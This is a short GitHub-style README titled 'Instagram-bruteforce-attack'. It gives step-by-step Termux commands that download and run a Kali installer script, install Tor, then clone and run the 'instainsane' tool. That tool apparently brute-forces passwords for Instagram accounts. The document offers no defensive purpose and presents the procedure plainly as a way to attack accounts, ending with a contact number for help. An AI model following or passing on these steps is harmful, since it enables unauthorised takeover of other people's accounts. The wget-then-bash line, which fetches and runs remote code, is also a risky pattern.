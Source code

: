 # Instagram-bruteforce-attack

✨FOLLOW My Comments✨

*First Step: Copy this👇👇👇👇And paste Termux And install kali and Type Clear And continue Second Step♥️

pkg install wget openssl-tool proot -y && hash -r && wget https://raw.githubusercontent.com/EXALAB/AnLinux-Resources/master/Scripts/Installer/Kali/kali.sh && bash kali.sh 


*Second Step:$./start-kali.sh 

*Third Step:#apt install git 

*Foruth Step:#apt-get install tor
 
*Fiveth Step:#git clone https://github.com/thelinuxchoice/instainsane

*Sixth Step:#ls 

*Seventh Step:#cd instainsane 

*Eighth Step:#chmod +x * 

*Nineth Step:#ls

*Tenth Step:#./install.sh

*Eleventh Step:#aptinstall sudo  

*Twelveth Step:#sudo ./instainsane.sh

🃏Tools Has install

⚠️Any Doubt Contact Me:7592988554⚠️

